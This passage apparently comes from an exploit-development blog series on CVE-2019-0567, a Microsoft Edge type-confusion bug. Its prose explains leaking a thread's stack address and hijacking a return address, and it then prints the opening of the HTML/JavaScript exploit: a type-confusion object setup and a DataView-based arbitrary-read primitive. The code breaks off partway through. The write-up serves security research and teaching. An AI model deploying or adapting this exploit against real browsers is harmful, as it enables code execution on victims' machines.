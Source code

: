 <img src="{{ site.url }}{{ site.baseurl }}/images/3typeconfusion38.png" alt="">

However, we can clearly see that not only is this thread committed to memory, it is within the known bounds of _another_ thread's TEB tracking of the stack (note that the below diagram is confusing because the columns are unaligned. We are outlining the stack base and limit).

<img src="{{ site.url }}{{ site.baseurl }}/images/3typeconfusion39.png" alt="">

This means we can reliably locate a stack address for a currently executing thread! It is perfectly okay if we end up hijacking a return address within _another_ thread because as we have the ability to read/write anywhere within the process space, and because the level of "private" address space Windows uses is on a per-process basis, we can still hijack any thread from the current process. In essence, it is perfectly valid to corrupt a return address on _another_ thread to gain code execution. The "lower level details" are abstracted away from us when it comes to this concept, because _regardless_ of what return address we overwrite, or when the thread terminates, it will have to return control-flow somewhere in memory. Since threads are constantly executing functions, we know that at some point the thread we are dealing with will receive priority for execution and the return address will be executed. If this makes no sense, do not worry. Our concept hasn't changed in terms of overwriting a return address (be it in the current thread or another thread). We are not changing anything, from a foundational perspective, in terms of our stack leak and return address corruption between this blog post and part two of this blog series.

With that being said, here is how our exploit now looks with our stack leak.

```html
<button onclick="main()">Click me to exploit CVE-2019-0567!</button>

<script>
// CVE-2019-0567: Microsoft Edge Type Confusion
// Author: Connor McGarr (@33y0re)

// Creating object obj
// Properties are stored via auxSlots since properties weren't declared inline
obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

// Create two DataView objects
dataview1 = new DataView(new ArrayBuffer(0x100));
dataview2 = new DataView(new ArrayBuffer(0x100));

// Function to convert to hex for memory addresses
function hex(x) {
    return x.toString(16);
}

// Arbitrary read function
function read64(lo, hi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to read from (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Instead of returning a 64-bit value here, we will create a 32-bit typed array and return the entire away
    // Write primitive requires breaking the 64-bit address up into 2 32-bit values so this allows us an easy way to do this
    var arrayRead = new Uint32Array(0x10);
```